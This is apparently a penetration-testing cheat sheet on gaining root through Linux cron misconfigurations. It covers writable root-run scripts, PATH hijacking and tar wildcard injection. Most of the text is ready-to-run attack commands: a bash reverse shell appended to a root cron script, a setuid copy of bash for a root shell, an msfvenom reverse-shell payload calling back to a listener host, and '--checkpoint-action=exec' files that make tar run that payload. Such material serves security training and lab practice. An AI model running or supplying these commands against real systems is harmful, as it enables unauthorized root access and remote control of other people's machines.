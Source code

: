# cron/crontab abuse

## Crontab <a id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access.  cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges.  In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.



#### for example look for cron jobs with the following commands:   `grep "CRON" /var/log/cron.log >>> works best for unprivileged users  crontab -l  ls -alh /var/spool/cron  ls -al /etc/ | grep cron  ls -al /etc/cron*  cat /etc/cron*  cat /etc/at.allow  cat /etc/at.deny  cat /etc/cron.allow  cat /etc/cron.deny  cat /etc/crontab  cat /etc/anacrontab  cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)



greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.



####   `echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` 

![](../../../.gitbook/assets/cron3.png)

## PATH Environment Variable

  
 The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.  
  
 View the contents of the system-wide crontab:  


####  `cat /etc/crontab`

 Note that the /home/user directory \(which we can write to\) is at the start of the PATH variable, and the first cron job does not use an absolute path.  


![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

####   `nano /home/user/overwrite.sh  #!/bin/bash  cp /bin/bash /tmp/rootbash  chmod +s /tmp/rootbash`

####   Once the /tmp/rootbash file is created, execute it \(with -p to preserve the effective UID\) to gain a root shell: 

#### `/tmp/rootbash -p`



![](../../../.gitbook/assets/cron6.png)

## Wildcards

  
 Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options \(e.g. -h, --help\) to commands by creating files with these names. The following commands should show how this works:  
  


####  `ls *  touch ./-l  ls *`



![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.  
 In fact we can create filenames that match complex options:  


####  `--option=key=value`



 [GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.  
  
  
 View the contents of the system-wide crontab:  


####  `cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:  
  


####  `$ cat /usr/local/bin/compress.sh  #!/bin/sh  cd /home/user  tar czf /tmp/backup.tar.gz *`  

 Note that the tar command is run with a wildcard in the /home/user directory.  
 GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:  


####  `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

  
  
 Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:  
  


####  `touch /home/user/--checkpoint=1  touch /home/user/--checkpoint-action=exec=shell.elf`  

 Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)

